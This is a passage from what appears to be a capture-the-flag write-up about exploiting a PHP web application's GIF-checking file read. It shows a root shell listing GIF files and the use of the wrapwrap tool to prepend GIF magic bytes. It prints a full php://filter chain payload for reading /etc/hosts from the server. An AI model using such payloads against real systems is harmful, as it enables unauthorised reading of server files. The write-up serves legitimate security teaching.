 I’ll get the path of a GIF:

```

root@5323f1453a8b:/var/www/html# find / -name '*.gif' 2>/dev/null | head
/usr/share/apache2/icons/pie7.gif
/usr/share/apache2/icons/tar.gif
/usr/share/apache2/icons/link.gif
/usr/share/apache2/icons/forward.gif
/usr/share/apache2/icons/transfer.gif
/usr/share/apache2/icons/broken.gif
/usr/share/apache2/icons/alert.red.gif
/usr/share/apache2/icons/burst.gif
/usr/share/apache2/icons/pie1.gif
/usr/share/apache2/icons/ball.red.gif

```

![image-20250130171504266](/img/image-20250130171504266.png)

It works! That reads a file from the host system and copies it onto the webserver.

#### Read With wrapwrap

Knowing that works, I’ll try to read `/etc/hostname`:

![image-20250130171652463](/img/image-20250130171652463.png)

It’s failing because the magic bytes for the file don’t match that of a GIF.

I can try things like filters to `base64`, but unless the resulting data starts with “GIF87a” or “GIF89a” (see a [list of file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)), it’s going to return that same error.

The same author that found the buffer overflow in glibc had earlier written a tool named [wrapwrap](https://www.ambionics.io/blog/wrapwrap-php-filters-suffix) that uses PHP filters to prefix data. In the example, if data is fetched and then parsed as JSON, you can prefix it with `{"<key>": "` and a suffix of `"}` to get the data to process correctly. Here, I can prepend the GIF magic bytes.

I’ll use `wrapwrap` to append the six-byte magic to the front of `/etc/hosts`:

```

oxdf@hacky$ python wrapwrap.py /etc/hosts "GIF89a" "" 1000
[!] Ignoring nb_bytes value since there is no suffix
[+] Wrote filter chain to chain.txt (size=1443).
oxdf@hacky$ cat chain.txt 
php://filter/convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource=/etc/hosts

```

